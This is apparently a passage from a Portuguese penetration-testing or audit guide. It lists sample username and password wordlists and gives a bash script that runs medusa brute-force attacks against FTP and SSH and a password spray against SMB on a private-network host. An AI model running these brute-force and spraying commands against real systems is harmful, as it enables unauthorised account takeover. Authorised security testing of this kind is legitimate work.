 ### 1. **senhas-comuns.txt** (500 entradas)
```
password
123456
admin
welcome
qwerty123
```

### 2. **usuarios-corporativos.txt** (50 entradas)
```
admin
administrator
root
user
service
guest
```

### 3. **senhas-contextuais.txt** (100 entradas)
```
Company2024!
Welcome123
Admin@2024
Password!
Spring2024
```

## Scripts e Automação

### Script de Automação Completa
```bash
#!/bin/bash
# brute-force-audit.sh

TARGET="192.168.1.100"
WORDLIST_USERS="usuarios.txt"
WORDLIST_PASS="senhas.txt"

echo "[+] Iniciando auditoria de força bruta..."

# FTP Brute Force
echo "[+] Testando FTP..."
medusa -h $TARGET -U $WORDLIST_USERS -P $WORDLIST_PASS -M ftp -t 5 -O ftp-results.txt

# SSH Brute Force  
echo "[+] Testando SSH..."
medusa -h $TARGET -U $WORDLIST_USERS -P $WORDLIST_PASS -M ssh -t 3 -O ssh-results.txt

# SMB Password Spray
echo "[+] Testando SMB..."
medusa -h $TARGET -U $WORDLIST_USERS -p "Company2024!" -M smbnt -t 2 -O smb-results.txt

echo "[+] Auditoria concluída. Verificar arquivos *-results.txt"
```
